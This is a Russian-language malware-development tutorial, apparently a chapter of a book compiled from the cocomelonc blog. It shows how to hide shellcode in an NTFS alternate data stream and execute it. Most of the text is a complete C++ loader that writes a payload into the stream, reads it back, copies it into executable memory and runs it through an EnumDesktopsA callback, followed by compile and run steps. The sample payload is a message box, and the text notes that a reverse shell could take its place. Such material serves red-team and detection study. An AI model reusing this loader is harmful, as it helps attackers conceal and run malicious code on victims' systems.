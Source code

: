 \newpage
\subsection{46. трюк разработки вредоносного ПО. Хранение полезной нагрузки в альтернативных потоках данных. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![хак](./images/105/2023-07-27_04-58.png){width="80%"}      

Сегодня этот пост является результатом моего собственного исследования ещё одного популярного трюка разработки вредоносного ПО: хранение вредоносных данных в альтернативных потоках данных (ADS) и способы их использования злоумышленниками для обеспечения постоянства.     

### альтернативные потоки данных

Альтернативные потоки данных (ADS) позволяют связывать несколько "потоков" данных с одним именем файла, что может использоваться для хранения метаданных. Хотя эта функция была разработана для поддержки *Macintosh Hierarchical File System (HFS)*, который использует ресурсные форки для хранения значков и другой информации о файле, её можно использовать (и она уже использовалась) для сокрытия данных и вредоносного кода.    

### практический пример

Ниже приведён простой пример кода для хранения полезной нагрузки в ADS `hack.c`:      
```cpp
/*
hack.c
malware store data in alternate data streams
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/26/malware-tricks-35.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  // name of the file to which we'll attach the ADS
  char* filename = "C:\\temp\\meow.txt";

  // name of the ADS
  char* streamname = "hiddenstream";

  // full path including the ADS
  char fullpath[1024];
  sprintf(fullpath, "%s:%s", filename, streamname);

  // the data we're going to write to the ADS
  // meow-meow messagebox
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  printf("original payload: ");
  for (int i = 0; i < sizeof(my_payload); i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  // write data to the ADS
  HANDLE hFile = CreateFile(fullpath, GENERIC_WRITE, 0, NULL, 
  CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully write payload data to the ADS\n");
  DWORD bw;
  WriteFile(hFile, my_payload, sizeof(my_payload) - 1, &bw, NULL);
  CloseHandle(hFile);

  // now read the data back
  hFile = CreateFile(fullpath, GENERIC_READ, 0, NULL, 
  OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully read payload data from file\n");

  unsigned char data[sizeof(my_payload) - 1];
  DWORD br;
  ReadFile(hFile, data, sizeof(data), &br, NULL);
  CloseHandle(hFile);

  printf("read from file, payload:\n");
  for (int i = 0; i < sizeof(data); i++) {
    printf("%02x ", data[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, data, sizeof(data));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Логика довольно проста. Этот код записывает данные в ADS, а затем считывает их обратно. Затем запускает полезную нагрузку через [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html).

Как обычно, в качестве полезной нагрузки я использовал `meow-meow` messagebox для простоты:

```cpp
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

Этот код создаёт альтернативный поток данных (ADS) с именем `hiddenstream` в указанном файле и записывает в него полезную нагрузку. Затем он читает данные обратно и выводит их для проверки корректности. В реальном сценарии данные могут представлять собой вредоносный исполняемый файл, например, обратный шелл или другой шеллкод, который затем может быть извлечён во временное расположение и выполнен отдельно.       

### демонстрация

Давайте посмотрим эту логику в действии.      

Компилируем:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![хак](./images/105/2023-07-27_04-59.png){width="80%"}      

Затем переносим тестовый файл жертвы `meow.txt` в `C:\temp\`:     

![хак](./images/105/2023-07-27_23-22.png){width="80%"}      

И, наконец, запускаем:     

```powershell
.\hack.exe
```

![хак](./images/105/2023-07-27_23-21.png){width="80%"}      

Мы можем проверить альтернативные потоки данных командой:     

```powershell
Get-Item -Path C:\temp\meow.txt -Stream *
```

![хак](./images/105/2023-07-27_23-24_1.png){width="80%"}      

![хак](./images/105/2023-07-27_23-24.png){width="80%"}      

Как можно заметить, всё сработало, как и ожидалось! =^..^=    

Обратите внимание, что функция альтернативных потоков данных (ADS) специфична для файловой системы `NTFS`, другие файловые системы, такие как `FAT32`, `exFAT`, `ext4` (используемая в Linux), не поддерживают эту функцию.      

Этот метод выполнения кода часто используется [APT29](https://attack.mitre.org/groups/G0016) и [APT32](https://attack.mitre.org/groups/G0050), а также программным обеспечением типа [PowerDuke](https://attack.mitre.org/software/S0139).       

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике разработки вредоносного ПО и добавит оружие в арсенал красных команд.      

[T1564.004 - Hide Artifacts: NTFS File Attributes](https://attack.mitre.org/techniques/T1564/004/)      
[APT29](https://attack.mitre.org/groups/G0016)     
[APT32](https://attack.mitre.org/groups/G0050)     
[malpedia: APT29](https://malpedia.caad.fkie.fraunhofer.de/actor/apt29)     
[malpedia: APT32](https://malpedia.caad.fkie.fraunhofer.de/actor/apt32)      
[PowerDuke](https://attack.mitre.org/software/S0139)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-07-26-malware-trick-35)           
